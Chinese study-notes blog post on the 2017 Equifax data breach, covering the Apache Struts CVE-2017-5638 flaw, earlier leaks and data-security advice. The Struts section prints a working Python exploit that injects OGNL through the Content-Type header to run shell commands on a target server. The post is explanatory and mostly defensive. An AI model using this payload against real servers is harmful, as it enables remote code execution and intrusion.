```yaml
---
layout: post
title: "【60天重学左耳】Day58-从Equifax信息泄露看数据安全"
date: 2020-02-11 20:30:00 +0800
categories: code
tags: [Method, Tech]
author: 方伟
---
```


**从美国知名征信公司Equifax出现的大规模数据泄露事件说起，分析背后的原因，给出解决这类安全问题的技术手段和方法。**

<!--more-->

打卡Day58：今天学习了《03｜Equifax信息泄露始末》和《04｜从Equifax信息泄露看数据安全》，我的收获如下：

2017年9月，美国知名征信公司Equifax出现了大规模数据泄露事件，致使1.43亿用户受到影响。

## Equifax信息泄露始末

黑客利用了其系统中未修复的Apache Struts漏洞（CVE-2017-5638，2017年3月6日曝光）来发起攻击。

该漏洞于2017年3月披露，危险系数定为最高分10分，Apache随后发布的Struts 2.3.32和2.5.10.1版本进行了修复。而Equifax在漏洞公布后的两个月内都没有升级Struts版本，导致5月份黑客利用这个漏洞进行攻击，泄露其敏感数据。

Equifax的一个管理面板使用的用户名和密码都是“admin”。

## Apache Struts 漏洞相关

世界上最流行的Java Web服务器框架之一。采用Java Servlet/JSP技术，实现了基于Java EE Web应用的MVC设计模式的应用框架。

2004年3月成为Apache基金会的顶级项目。2006年，另一个MVC框架WebWork与Struts进行了整合，发布了Struts 2。

中国的Struts应用分布在全球范围内排名第一，第二是美国，然后是日本。

CVE-2017-5638，一个RCE的远程代码执行漏洞，最初被安恒信息的Nike Zheng发现，并于2017年3月7日上报。攻击者可以在使用插件Jakarta Multipart parser上传文件时，修改HTTP请求头中的Content-Type值来触发漏洞，远程执行代码。

就是在Content-Type注入OGNL语言，进而执行命令。代码如下（一行Python命令就可以执行服务器上的shell命令）：

```
import requests
requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})
```

注入点是在 JakartaMultiPartRequest.java的buildErrorMessage函数中，这个函数里的 localizedTextUtil.findText会执行OGNL表达式，从而导致命令执行。

## 数据泄露介绍以及历史回顾

* 2014年，雅虎遭遇攻击，泄露出5亿用户的密码。
* 2012年，LinkedIn泄露了6500万用户名和密码。
* 2014年，携程网安全支付日志存在漏洞，导致大量用户信息如姓名、身份证号、银行卡类别、银行卡号、银行卡CVV码等信息泄露。
* 2011年，RSA公司被钓鱼邮件攻击。打开带有恶意代码的Excel附件，通过攻破Adobe Flash漏洞，来取得对机器的管理权，并访问RSA内网中的服务器。最终导致其母公司EMC花费6630万美元来调查、加固系统，并最终召回和重新分发了30000家企业客户的SecurID卡片。

## 数据泄露攻击

攻击是怎样实现的：

1. 利用程序框架或库的已知漏洞。比如Equifax被攻击，Apache Struts漏洞。RSA被攻击，Adobe Flash漏洞。“心脏流血”，OpenSSL漏洞。
2. 暴力破解密码。利用密码字典库或是已经泄露的密码来“撞库”。
3. 代码注入。SQL注入、XSS攻击、CSRF攻击。
4. 利用程序日志不小心泄露的信息。
5. 社会工程学。安全意识增强了，才能抵御此类攻击。钓鱼攻击。

数据管理上的问题：

1. 只有一层安全。
2. 弱密码。
3. 向公网暴露了内部系统。
4. 对系统及时打安全补丁。
5. 安全日志被暴露。
6. 保存了不必要保存的用户数据。
7. 密码没有被合理地散列。

## 专家建议

5条最佳实践。

1. 跟踪软件使用的框架和库，版本号、最新安全性声明。
2. 建立一个安全补丁快速发布流程。
3. 所有复杂的软件都有漏洞。
4. 建立多个安全层。
5. 针对公网资源，建立对异常访问模式的监控机制。

## 技术上的安全做法

1. 定义出关键数据，隔离到安全级别非常高的地方。
2. 返回脱敏数据，在传输层上加密。
3. 被加密的数据和用于加密的密钥由不同的人来管理。
4. 密钥随机生成，不同用户的数据有不同的密钥，时不时自动化更新。
5. 关键信息传到外部系统，需要通知用户和管理员。超过限制访问量后，报警或拒绝。

**安全方案就是能够把这个风险控制在一个很小的范围。**通过“风控基金”来做业务上的补偿，比如赔偿用户损失。防范成本远高于赔偿成本，还不如赔偿。


> [左耳朵耗子带你重学《左耳听风》](https://time.geekbang.org/column/article/177414)

> [https://time.geekbang.org/column/article/281](https://time.geekbang.org/column/article/281)

> [https://time.geekbang.org/column/article/285](https://time.geekbang.org/column/article/285)



